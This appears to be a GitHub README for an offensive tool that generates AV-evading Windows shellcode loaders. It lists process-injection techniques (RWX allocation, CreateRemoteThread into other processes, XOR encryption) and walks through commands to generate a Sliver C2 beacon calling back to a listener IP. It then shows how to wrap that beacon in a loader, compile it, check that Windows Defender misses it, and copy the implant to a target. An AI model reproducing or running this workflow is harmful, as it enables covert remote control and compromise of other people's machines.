


# ldrgen

ldrgen is a golang cli tool to generate shellcode loaders

## Usage
```
go build .
./ldrgen --help
```

## Why?
When you want to drop your beacon to disk but AV keeps nuking you, and you're too lazy to write a loader

## Loader Tokens
Currently available injection tokens:
- [Inline.c](./templates/Source/Inline.c)
    - `VirtualAlloc` to allocate RWX memory, `memcpy` shellcode, execute inline with `( (void ( * )())exec )();`
- [Inline_Xor.c](./templates/Source/Inline_Xor.c)
    - `VirtualAlloc` to allocate RWX memory, `memcpy` shellcode, encrypt shellcode via [Xor.c](./templates/Source/Xor.c), execute inline with `( (void ( * )())exec )();`
- [CreateRemoteThread.c](./templates/Source/CreateRemoteThread.c)
    - `OpenProcess`, `VirtualAllocEx` with *PAGE_EXECUTE_READWRITE*, `WriteProcessMemory` and `CreateRemoteThread` to execute shellcode
- [CreateRemoteThreadRX.c](./templates/Source/CreateRemoteThreadRX.c)
    - `OpenProcess`, `VirtualAllocEx` with *PAGE_EXECUTE_READ*, `WriteProcessMemory`, `VirtualProtectEx` with *PAGE_EXECUTE_READ* and `CreateRemoteThread` to execute shellcode

## Shellcode Templates
These are globally accessible variables via loader templates, and will be replaced with the appropriate values when generating the loader source code.
1. [Shellcode.c](./templates/Source/Shellcode.c)
    - `${SHELLCODE}` -> shellcode in the format: { 0x00, 0x00, 0x00, 0x00, ... }
    - `${SHELLCODE_SIZE}` -> shellcode length in bytes
2. [Shellcode.h](./templates/Include/Shellcode.h)
    - `extern unsigned char shellcode[];`
    - `extern size_t shellcode_size;`

## Usage 
```bash
git clone https://github.com/gatariee/ldrgen
cd ./ldrgen
go build -o ldr .
./ldr --help
```

## Example (calc.exe)
```bash
./ldr -bin ./dev/calc_shellcode/calc.bin -out ./output -ldr CreateThread_Xor -enc xor -key SuperSecureKey1234 --cleanup
cd output && make x64
```

## Example (sliver beacon)

### Sliver Shellcode Generation
```bash
sliver > generate beacon --http <listener_ip> --format shellcode
```


### Loader Generation
```bash
./ldr -bin SEMANTIC_CUPOLA.bin -out output -ldr CreateThread_Xor -enc xor -key aahduiahsdgiasudhagsdashdasgjdhka --cleanup
```

- binfile -> **SEMANTIC_CUPOLA.bin**
- output to -> **./output**
- use technique -> **CreateThread**
- with encryption: **xor**
- with key: **aahduiahsdgiasudhagsdashdasgjdhka**
- delete tempfiles after compilation: **true**

### Compilation
```bash
cd output && make x64
```


- compile for x64 windows, alternatively compile for x86 with `make x86` (make sure your shellcode arch is the same as the loader arch)


### Beacon
Copy `implant_x64.exe` to your target, see: [here](https://gitbook.seguranca-informatica.pt/cheat-sheet-1/stuff/file-transfer).

If you're worried about detections, run your implant through AV before deploying it to your target. (avoid VT if you care about getting sigged, but I'll use it cos I'm lazy.)


*https://www.virustotal.com/gui/file/a88b7bee6e5dab73f158093d9f4ec9e556bd6984689efac44bafe3f600020b66?nocache=1*

This should be fine for Windows Defender.


### Beacon Callback


### OPSEC
- This tool **helps** with **generating loaders** using templates, it **does not** help with **OPSEC**. 
- Evasive features of the loader is up to the operator to implement.